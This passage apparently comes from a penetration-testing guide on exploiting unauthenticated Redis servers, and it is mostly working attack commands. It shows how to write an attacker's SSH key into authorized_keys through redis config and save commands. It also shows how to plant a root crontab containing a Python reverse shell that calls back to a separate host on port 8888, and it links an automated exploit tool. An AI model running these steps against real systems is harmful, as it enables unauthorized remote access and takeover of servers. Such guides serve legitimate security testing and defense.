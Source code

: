 If the webshell access exception, you can empty the database after backup and try again, remember to restore the database.

## SSH

In the output of config get * you could find the home of the redis user (usually `/var/lib/redis` or `/home/redis/.ssh`), and knowing this you know where you can write the `authenticated_users` file to access via ssh with the user redis. If you know the home of other valid user where you have writable permissions you can also abuse it:

Generate a ssh public-private key pair on your pc:

```bash
ssh-keygen -t rsa
```

Write the public key to a file :

```bash
(echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
```

Import the file into redis :

```bash
cat foo.txt | redis-cli -h 10.85.0.52 -x set crackit
```

Save the public key to the `authorized_keys` file on redis server:

```bash
root@Urahara:~ redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /home/test/.ssh/
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```

Finally, you can ssh to the redis server with private key : 

```bash
ssh -i id_rsa test@10.85.0.52
```

This technique is automated here: 

[GitHub - iw00tr00t/Redis-Server-Exploit: This will give you shell access on the target system if redis server is not configured properly and faced on the internet without any authentication](https://github.com/iw00tr00t/Redis-Server-Exploit)

## Crontab

```bash
root@Urahara:~ echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~ redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~ redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~ redis-cli -h 10.85.0.52 save
OK
```
